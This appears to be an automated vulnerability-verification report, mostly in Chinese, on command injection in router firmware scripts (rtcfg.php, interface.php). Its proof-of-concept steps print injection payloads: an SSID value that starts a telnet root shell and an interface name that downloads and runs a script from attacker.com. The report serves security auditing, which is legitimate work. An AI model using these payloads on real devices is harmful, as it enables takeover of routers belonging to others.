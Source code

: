 ## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** The alert accurately describes a command injection vulnerability in 'rtcfg.php'. Evidence from the code shows that in the 'dev_start' function, SSID input from `get("s", $wifi."/ssid")` is directly embedded into an 'nvram set' command without sanitization. Similarly, in 'try_set_psk_passphrase', PSK key input from `query($wifi."/nwkey/psk/key")` is directly embedded. No input filtering was found in the included files for 'get' and 'query' functions. The vulnerability is exploitable by an authenticated non-root user (attack model: user with web interface access) who can manipulate wireless settings (SSID or PSK key) to inject malicious commands. For example, setting SSID to `\"; malicious_command; #` would break the command structure and execute arbitrary code. The script is likely executed with root privileges during configuration changes, leading to full system compromise. PoC: An attacker can log into the web interface, navigate to wireless settings, and set SSID to `\"; telnetd -l /bin/sh; #` to start a telnet server, or use other payloads for command execution.

## 验证指标

- **验证时长：** 266.15 秒
- **Token 使用量：** 400936

---

## 原始信息

- **文件/目录路径：** `etc/services/INET/interface.php`
- **位置：** `interface.php: ifinetsetup function`
- **描述：** 在多个函数中，未经过滤的输入参数（如 $name、$ifname、$cmd）被用于构建 shell 命令字符串，并通过 fwrite 写入可能被后续执行的脚本中。如果攻击者能够控制这些参数（例如通过 Web 接口设置接口名或计划），可能注入恶意命令。具体触发条件包括：当接口设置函数被调用时，参数直接拼接进命令字符串；缺少输入验证和边界检查；潜在利用方式包括通过注入分号或换行符执行任意命令。相关代码逻辑涉及字符串连接和命令写入。
- **代码片段：**
  ```
  fwrite(a, $_GLOBALS["START"], 'service INF.'.$name.' '.$cmd.'\n');
  fwrite(a, $_GLOBALS["STOP"], 'service INF.'.$name.' stop\n');
  ```
- **备注：** 需要进一步验证输入参数 $name 和 $cmd 的来源，例如通过分析调用 interface.php 的 Web 接口或 IPC 机制。建议检查相关配置文件或用户输入点以确认攻击链的完整性。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 警报描述准确：代码确认 ifinetsetup 函数中 $name 和 $cmd 参数被直接拼接进 shell 命令字符串，且无输入过滤或转义。漏洞可利用，因为：1) 输入可控性：$name 可能通过 Web 接口由攻击者设置（如接口名称配置）；2) 路径可达性：ifinetsetup 可能在接口配置应用时被调用（如设备启动或设置保存）；3) 实际影响：命令注入可导致任意命令执行，完全 compromise 设备。攻击者模型为已通过身份验证的远程攻击者（需管理权限）。PoC 步骤：攻击者登录 Web 接口，设置接口名为恶意值（如 'eth0; wget http://attacker.com/malicious.sh -O /tmp/m.sh; sh /tmp/m.sh'），当配置应用时，ifinetsetup 写入并执行命令，注入的恶意脚本被运行。

## 验证指标
